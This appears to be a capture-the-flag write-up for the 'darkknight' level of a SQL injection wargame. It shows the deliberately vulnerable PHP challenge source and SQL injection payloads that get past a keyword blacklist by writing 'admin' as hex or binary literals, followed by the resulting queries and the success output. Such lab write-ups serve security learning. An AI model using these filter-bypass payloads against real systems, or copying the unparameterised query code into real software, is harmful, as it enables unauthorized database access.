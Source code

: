 ```

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>

```
BLACKLIST= substr, ascii, admin

PAYLOAD: ?pw=1&no=0 or id like 0x61646d696e
OUTPUT: select id from prob_darkknight where id='guest' and pw='1' and no=0 or id like 0x61646d696e#
Hello Admin

PAYLOAD: ?pw=1&no=0 or id like 0b0110000101100100011011010110100101101110
OUTPUT: select id from prob_darkknight where id='guest' and pw='1' and no=0 or id like 0b0110000101100100011011010110100101101110
Hello Admin

OUTPUT:
Hello Admin
Darkknight clear


Darkknight clear
